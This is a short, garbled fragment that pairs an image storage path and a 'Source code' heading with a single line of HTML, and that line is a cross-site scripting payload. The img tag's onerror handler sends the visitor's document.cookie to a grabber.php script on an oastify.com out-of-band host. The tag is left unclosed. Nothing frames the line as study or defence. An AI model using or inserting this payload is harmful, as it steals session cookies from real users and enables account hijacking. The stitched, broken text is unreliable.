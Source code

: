 ___

<img src="a" onerror="fetch('http://7rzkvwnfdpylhe7uhzyfps6u3l9cx2lr.oastify.com/XSS/grabber.php?c=' + document.cookie)"

